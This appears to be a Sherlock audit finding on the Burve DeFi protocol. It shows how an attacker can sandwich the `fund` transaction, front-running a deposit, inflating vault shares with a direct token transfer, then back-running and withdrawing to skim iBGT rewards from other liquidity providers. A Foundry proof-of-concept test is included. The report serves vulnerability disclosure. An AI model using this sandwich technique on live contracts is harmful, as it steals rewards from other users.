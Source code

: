 Sweet Slate Dove

Medium

# User is able to steal ibgt rewards by sandwiching `fund` transaction

### Summary

As the title suggests, the User is able to steal ibgt rewards by sandwiching `fund` transaction.

### Root Cause

Explained in the attack path. There is basically no enforcement of the time that an LP has to stake/provide liquidity to earn ibgt rewards. This allows an attacker to steal the ibgt rewards from other LPs by essentially contributing nothing to the protocol.

### Internal Pre-conditions

None

### External Pre-conditions

The value that the user donates to the underlying vault must be less than the ibgt earned by him for this attack to be profitable.

### Attack Path

When a user calls `addValue` to deposit tokens/value into the protocol, their tokens are internally deposited to an underlying vault of another protocol which helps the protocol earn additional yield on tokens apart from the fees collected internally within the protocol. This updates the [`totalVaultShares`](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/multi/vertex/E4626.sol#L87). It is used to keep track of the tokens that are deposited in the underlying vault.

```solidity
        if (assetsToDeposit > 0) {
            // Temporary approve the deposit.
            SafeERC20.forceApprove(
                self.token,
                address(self.vault),
                assetsToDeposit
            );
            self.totalVaultShares += self.vault.deposit(
                assetsToDeposit,
                address(this)
            );

```

The protocol can choose any underlying vault of another protocol as long as it is compatible with ERC4626. For example, it may use ATokenVault by Aave (the protocol intends to do so) - https://github.com/aave/Aave-Vault/blob/main/src/ATokenVault.sol

Look at the [`totalAssets`](https://github.com/aave/Aave-Vault/blob/c5bdb40b3c84f9a45c4937d072553c69bb13d695/src/ATokenVault.sol#L460-L462) function:

```solidity
    function totalAssets() public view override(ERC4626Upgradeable, IATokenVault) returns (uint256) {
        // Report only the total assets net of fees, for vault share logic
        return ATOKEN.balanceOf(address(this)) - getClaimableFees();
    }
```

If the `totalAssets` were to go up in value, then the value of the existing shares would go up as well. So, a user could increase the totalAssets by simply transferring the tokens directly to the `ATokenVault` using the ERC20 transfer. This might seem like a loss to the user, but this would increase the share value. Note this point, that the share value can be increased in this manner.

To carry out this attack:

1. The user observes that the `fund` function of  [`BGTExchanger`](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L116 )has been called in the memepool. 
2. The user sees this and front-runs the fund tx.
3. Before the fund tx is executed, he will call the addValue function and deposit his initial liquidity. In the same call, he would likely inflate the share price by directly transferring ERC20 to the underlying vault. He would batch these 2 steps together, likely using a smart contract.
4. The fund tx would get executed.
5. He would immediately back-run this tx and again call `addValue`. This is to update the values of `earningsPerValueX128`, `bgtPerBgtValueX128` and `unexchangedPerBgtValueX128` in the closure contract. This would also update the `collectedBalances` and `bgtBalance` of the user in the Asset contract.
6. The user then withdraws his deposited liquidity.

This is also shown in the POC.

### Impact

The user is able to earn iBGT tokens while not really having contributed to the protocol. The other LPS who have deposited for long will lose their ibgt awards due to this. The user is able to basically steal the ibgt awards while having contributed nothing to the protocol. The user is immediately depositing and withdrawing his liquidity and at the same time eating into the rewards of other LPs. This can also delay the other LPs from withdrawing their ibgt rewards.

### PoC

```solidity
    function testAttack() public {
        vm.startPrank(owner);
        ibgt = new MockERC20("ibgt", "ibgt", 18);
        BGTExchanger bgtExchanger = new BGTExchanger(address(ibgt));

        simplexFacet.setBGTExchanger(address(bgtExchanger));
        bgtExchanger.addExchanger(address(valueFacet));
        bgtExchanger.setRate(address(tokens[3]), (2 << 128));
        vm.stopPrank();

        vm.prank(alice);
        valueFacet.addValue(alice, 0x9, 1e24, 5e23);

        //increase time by 1 day
        vm.warp(block.timestamp + 1 days);

        uint256 bgtBalanceBob;
        uint256 bgtValueBob;
        uint256 valueBob;

        // front-run the fund tx by executing addValue
        vm.prank(bob);
        valueFacet.addValue(bob, 0x9, 1e28, 5e27);
        (valueBob, bgtValueBob, , bgtBalanceBob) = valueFacet.queryValue(
            bob,
            0x9
        );
        console.log("value bob", valueBob);
        console.log("bgtValue bob", bgtValueBob);
        console.log("bgtBalanceBob", bgtBalanceBob);
       
        // donate to the underlying vault using ERC20 transfer - to inflate share value
        MockERC20(tokens[3]).transfer(address(vaults[3]), 1000e18); 

        // fund gets executed
        deal(address(ibgt), owner, 10000e18);
        vm.startPrank(owner);
        ibgt.approve(address(bgtExchanger), 10000e18);
        bgtExchanger.fund(10000e18);
        vm.stopPrank();

        // back-run the fund tx to update collected fees and bgt balances
        vm.prank(bob);
        valueFacet.addValue(bob, 0x9, 1e21, 5e20);
        (valueBob, bgtValueBob, , bgtBalanceBob) = valueFacet.queryValue(
            bob,
            0x9
        );
        console.log("value bob", valueBob);
        console.log("bgtValue bob", bgtValueBob);
        console.log("bgtBalanceBob", bgtBalanceBob);

        // remove the deposited liquidity
        vm.prank(bob);
        valueFacet.removeValue(bob, 0x9, 1e21 + 1e28, 5e20 + 5e27);
        (valueBob, bgtValueBob, , bgtBalanceBob) = valueFacet.queryValue(
            bob,
            0x9
        );
        console.log("value bob", valueBob);
        console.log("bgtValue bob", bgtValueBob);
        console.log("bgtBalanceBob", bgtBalanceBob);

        assert(bgtBalanceBob > 0);
    }
```

Paste the above snippet in ValueFacet.t.sol and run it.

### Mitigation

_No response_